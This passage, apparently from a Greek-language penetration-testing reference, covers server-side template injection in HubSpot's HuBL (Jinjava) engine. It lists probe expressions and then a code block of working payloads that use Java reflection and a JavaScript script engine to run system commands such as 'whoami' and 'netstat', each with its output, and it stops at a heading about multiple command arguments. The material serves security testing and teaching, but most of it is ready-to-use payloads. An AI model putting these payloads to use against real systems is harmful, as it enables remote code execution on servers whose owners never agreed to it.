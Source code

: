* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava)

### Hubspot - HuBL (Java)

* `{% %}` δηλωτές δηλώσεων
* `{{ }}` δηλωτές εκφράσεων
* `{# #}` δηλωτές σχολίων
* `{{ request }}` - com.hubspot.content.hubl.context.TemplateContextRequest@23548206
* `{{'a'.toUpperCase()}}` - "A"
* `{{'a'.concat('b')}}` - "ab"
* `{{'a'.getClass()}}` - java.lang.String
* `{{request.getClass()}}` - class com.hubspot.content.hubl.context.TemplateContextRequest
* `{{request.getClass().getDeclaredMethods()[0]}}` - public boolean com.hubspot.content.hubl.context.TemplateContextRequest.isDebug()

Αναζητήστε το "com.hubspot.content.hubl.context.TemplateContextRequest" και ανακαλύψτε το [Jinjava project στο Github](https://github.com/HubSpot/jinjava/).
```java
{{request.isDebug()}}
//output: False

//Using string 'a' to get an instance of class sun.misc.Launcher
{{'a'.getClass().forName('sun.misc.Launcher').newInstance()}}
//output: sun.misc.Launcher@715537d4

//It is also possible to get a new object of the Jinjava class
{{'a'.getClass().forName('com.hubspot.jinjava.JinjavaConfig').newInstance()}}
//output: com.hubspot.jinjava.JinjavaConfig@78a56797

//It was also possible to call methods on the created object by combining the



{% raw %}
{% %} and {{ }} blocks
{% set ji='a'.getClass().forName('com.hubspot.jinjava.Jinjava').newInstance().newInterpreter() %}
{% endraw %}


{{ji.render('{{1*2}}')}}
//Here, I created a variable 'ji' with new instance of com.hubspot.jinjava.Jinjava class and obtained reference to the newInterpreter method. In the next block, I called the render method on 'ji' with expression {{1*2}}.

//{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
//output: xxx

//RCE
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
//output: java.lang.UNIXProcess@1e5f456e

//RCE with org.apache.commons.io.IOUtils.
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//output: netstat execution

//Multiple arguments to the commands
```
